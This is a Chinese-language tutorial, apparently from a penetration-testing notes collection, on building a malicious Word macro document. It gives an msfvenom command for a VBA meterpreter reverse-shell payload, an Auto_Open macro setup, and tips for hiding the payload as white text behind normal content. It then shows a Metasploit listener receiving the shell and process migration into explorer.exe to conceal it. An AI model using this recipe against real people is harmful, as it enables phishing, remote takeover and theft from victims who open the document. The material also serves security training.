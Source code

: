 Word 宏病毒是嵌入文档中的恶意代码，利用宏功能传播并执行破坏性操作，如篡改文件或窃取信息。

> 需要安装 Office LTSC 专业增强版 2021

## 1 制作木马文档

生成 payload

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.6.24 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe
```

打开 word 的宏

![](./../../../../images/Word%20%E5%AE%8F/%E6%89%93%E5%BC%80%20word%20%E7%9A%84%E5%AE%8F.png)

输入宏病毒的名，创建

```
Auto_Open
```

![](./../../../../images/Word%20%E5%AE%8F/%E8%BE%93%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%E7%9A%84%E5%90%8D%EF%BC%8C%E5%88%9B%E5%BB%BA.png)

清空代码，写入宏病毒，打开视图

> 粘贴从 Sub Auto_Open() 到 End Sub 的内容

![](./../../../../images/Word%20%E5%AE%8F/%E6%B8%85%E7%A9%BA%E4%BB%A3%E7%A0%81%EF%BC%8C%E5%86%99%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%EF%BC%8C%E6%89%93%E5%BC%80%E8%A7%86%E5%9B%BE.png)

写入 Payload，保存

> 粘贴***下面的长字符段

![](./../../../../images/Word%20%E5%AE%8F/%E5%86%99%E5%85%A5%20Payload%EF%BC%8C%E4%BF%9D%E5%AD%98.png)

修饰

> 建议在文档开头加入正常的内容，并将 Payload 代码改成白色

![](./../../../../images/Word%20%E5%AE%8F/%E4%BF%AE%E9%A5%B0.png)

> 点开文档会运行宏代码，下载木马至某个目录中，并执行木马，反弹 shell

## 2 渗透测试

msf 配置侦听

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.6.24
```

```
msf6 exploit(multi/handler) > set lport 4444
```

```
msf6 exploit(multi/handler) > run
```

目标运行文档

![](./../../../../images/Word%20%E5%AE%8F/%E7%9B%AE%E6%A0%87%E8%BF%90%E8%A1%8C%E6%96%87%E6%A1%A3.png)

> 成功建立连接，目标关闭 word 文档之后 session 不受影响

## 3 进程迁移

> 建议将进程迁移到资源管理器

在目标主机中可看到可疑进程

![](./../../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)

获取当前进程 pid

```
meterpreter > getpid
Current pid: 964
```

查看进程列表，根据 pid 找到进程

```
meterpreter > ps
```

![](./../../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%BF%9B%E7%A8%8B%E5%88%97%E8%A1%A8%EF%BC%8C%E6%A0%B9%E6%8D%AE%20pid%20%E6%89%BE%E5%88%B0%E8%BF%9B%E7%A8%8B.png)

查看资源管理器的进程

```
meterpreter > ps -S explorer.exe
```

![](./../../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E7%9A%84%E8%BF%9B%E7%A8%8B.png)

将可疑进程隐藏到资源管理器

```
meterpreter > migrate 4508
```

再次查看 pid

```
meterpreter > getpid
Current pid: 4508
```

目标主机中可疑进程迁移到了资源管理器

![](./../../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)